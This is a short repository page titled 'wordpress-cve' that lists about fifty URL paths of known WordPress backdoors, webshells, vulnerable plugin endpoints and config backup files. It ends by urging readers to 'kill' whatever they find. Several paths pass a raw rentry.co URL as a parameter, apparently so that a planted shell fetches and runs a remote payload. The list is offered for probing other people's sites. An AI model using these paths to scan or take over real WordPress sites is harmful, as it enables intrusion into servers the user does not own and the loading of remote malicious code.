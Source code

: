 # wordpress-cve

experts. check this:

/wp-content/plugins/wpdiscuz/themes/default/style-rtl.css

/wp-content/plugins/fancy-product-designer/inc/custom-image-handler.php

/vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php

/wp-content/langar.php

/test.php?Ghost=send

/config.php

/upload.php

/up.php

/wp-includes/small.php

/wp-includes/lfx.php

/wp-content/mu-plugins/db-safe-mode.php

/legion.php

/wp-content/wp-old-index.php?action=login&pass=-1&submit=

/haders.php

/wp-content/plugins/wpconfig.bak.php?act=sf

/wp-content/plugins/ubh/up.php

/wp-includes/css/wp-config.php

/wp-content/plugins/config.bak.php

/wp-content/themes/config.bak.php

/wp-includes/config.bak.php

/wp-content/config.bak.php

/wp-admin/config.bak.php

/config.bak.php

/old-index.php

/wp-includes/css/css.php

/wp-includes/fonts/css.php

/wp-1ogin_bak.php

/wp-content/wp-1ogin_bak.php

/cindex.php

/wp-booking.php

/alfa.php

/alfindex.php

/th3_err0r.php?php=https://rentry.co/yu8xc/raw

/larva.php?idb=https://rentry.co/yu8xc/raw

/wpindex.php?idb=https://rentry.co/yu8xc/raw

/xmlrp.php?url=https://rentry.co/yu8xc/raw

/wp-content/plugins/ioptimization/IOptimize.php?rchk

/wp-content/db_cache.php

/wp-content/plugins/backup_index.php

/boom.php?x

/?3x=3x

/index.php?3x=3x

/admin.php

/wp-content/plugins/t_file_wp/t_file_wp.php?test=hello

/moduless.php

/style.php

if you find somethig around , just try to lets kill that,,,

